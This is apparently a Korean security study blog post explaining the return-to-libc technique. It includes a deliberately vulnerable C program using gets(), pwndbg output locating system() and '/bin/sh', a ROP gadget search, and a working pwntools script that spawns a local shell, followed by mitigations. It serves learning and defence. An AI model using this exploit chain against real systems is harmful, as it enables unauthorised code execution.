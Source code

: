 ```yaml
---
title: "Return to Libc"
date: "2025-02-09"
author: "Beomsu Lee"
tags: ["system hacking", "stack"]
---
```


버퍼 오버플로우 취약점을 이용한 공격 기법 중 하나이다. DEP(Data Execution Prevention)를 우회하는 방법으로, 스택이 아닌 libc 라이브러리 함수들을 호출하여 코드 실행을 조작하는 기법이다.

> DEP는 스택에 있는 쉘코드가 실행되지 않도록 보호하는 기법이다.

## Exploit Plan

1. 취약한 프로그램에서 버퍼 오버플로우 발생 가능성 분석
2. 프로그램이 사용하는 libc 라이브러리 내 `system()` 함수 주소 확보
3. `/bin/sh` 문자열이 메모리에 있는지 확인 (또는 주입)
4. 스택을 조작해 리턴 주소를 `system()` 함수 주소로 설정
5. `system("/bin/sh")` 실행하여 쉘 확보

## Proof of Concept

```cpp
#include <stdio.h>
#include <string.h>

void vuln() {
    char buffer[64];
    gets(buffer);  
    printf("%s", buffer);
}

int main() {
    vuln();  
    return 0;
}
```

### Vulnerability Analysis

`gets()`를 사용해 길이 검증 없이 입력을 복사하기 때문에 버퍼 오버플로우 취약점이 존재한다.

스택 메모리 구조는 다음과 같다.

buffer(64 byte) + RBP(8 byte) + Return Address(8 byte)

따라서 다음과 같은 페이로드를 작성하고 리턴 주소까지 덮이는지 확인해보자.

```shell
payload = b'A'*64 + b'B'*8 + b'C'*8
```

`vuln()`의 `leave`를 수행하기 전 RBP를 확인해보면 0x4242424242424242으로 덮어씌워져 있고, 리턴 주소 또한 0x4343434343434343로 덮어씌워져 있다.

```
pwndbg> x/24gx $rbp
0x7ffe0c9662c0: 0x4242424242424242      0x4343434343434343
```

즉, 리턴 주소 변조를 통해 RIP를 변조할 수 있으므로, 결국 실행흐름까지 변조할 수 있게 된다.

### Exploit

`system("/bin/sh")`를 실행하기 위해 메모리 내 존재하는 "/bin/sh" 위치를 알아내야 한다. pwndbg에서는 `search`라는 명령어를 통해 "/bin/sh"의 위치를 쉽게 알아낼 수 있다.

```
pwndbg> search /bin/sh
Searching for byte: b'/bin/sh'
libc.so.6       0x7ffff7dcb42f 0x68732f6e69622f /* '/bin/sh' */
```

라이브러리의 `system()` 주소도 `p` 명령을 통해 알아낸다.

```cpp
pwndbg> p system
$3 = {int (const char *)} 0x7ffff7c58750 <__libc_system>

```

ASLR이 해제되어 있어 확보한 주소들은 변하지 않는다. 

이제 쉘을 실행하기 위한 정보는 다 얻었으니, 리턴 주소를 변조해보자. 64bit는 함수 호출 시 레지스터를 이용해 인자를 전달한다. 

> 32bit는 스택을 이용해 인자를 전달했다.

|인자 순서 | 	레지스터|	역할|
|:-:|:-:|:-:|
|1번째	|RDI	|첫 번째 인자|
|2번째	|RSI	|두 번째 인자|
|3번째	|RDX	|세 번째 인자|
|4번째	|RCX	|네 번째 인자|
|5번째	|R8	|다섯 번째 인자|
|6번째	|R9|	여섯 번째 인자|
|7번째 이후|	스택(RSP)|	추가적인 인자|

64bit 함수 호출 시 첫 번째 인자는 RDI로 전달한다. 따라서 "/bin/sh"의 주소를 RDI에 저장한 다음 `system()`을 호출시키면 된다. 

RDI에 "/bin/sh"의 주소를 저장시키기 위해선 `pop rdi` 가젯이 필요하다. `ROPGadget` 명령어를 통해 해당 가젯을 찾을 수 있다.

```shell
$ ROPgadget --binary /usr/lib/x86_64-linux-gnu/libc.so.6  | grep 'pop rdi ; ret'
0x000000000010f75b : pop rdi ; ret
```

프로그램 실행 시 "libc.so의 base 주소" + "가젯 주소"를 하면 프로그램이 실행될 때의 해당 가젯 주소를 얻을 수 있다.

```
pwndbg> x/2i 0x7ffff7d0f75b
   0x7ffff7d0f75b <__spawnix+875>:	pop    rdi
   0x7ffff7d0f75c <__spawnix+876>:	ret
```

다음과 같이 페이로드를 작성한 뒤 실행시키면 쉘을 얻을 수 있다. 중간에 추가한 `ret` 가젯의 경우 16 byte 정렬을 맞춰주기 위함이다. 맞춰주지 않으면 쉘을 확보하기 전 에러가 발생하게 된다.

```py
from pwn import *

p = process('./vuln')

pop_rdi = p64(0x7ffff7d0f75b)
bin_sh = p64(0x7ffff7dcb42f)
system = p64(0x7ffff7c58750)
ret = p64(0x0000000000401190)

payload = b'A'*64 + b'B'*8 + ret + pop_rdi + bin_sh + system
p.sendline(payload)

p.interactive()
```

```shell
$ ../python exploit.py
[+] Starting local process './vuln': pid 259989
[*] Switching to interactive mode
$ id
uid=1000(..) gid=1000(..) groups=1000(..),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
```

## Protection

### Stack Protection

- Stack Canaries: 카나리를 통해 스택 버퍼 오버플로우를 감지
- ASLR(Address Space Layout Randomization): 라이브러리 주소를 무작위화하여 공격을 방지

### Using Safe Functions

- `gets()` 대신 `fgets()`, `strcpy()` 대신 `strncpy()` 사용
- 입력 검증 및 길이 제한

## References

- [02.RTL(Return to Libc) - x64](https://www.lazenca.net/display/TEC/02.RTL%28Return+to+Libc%29+-+x64)
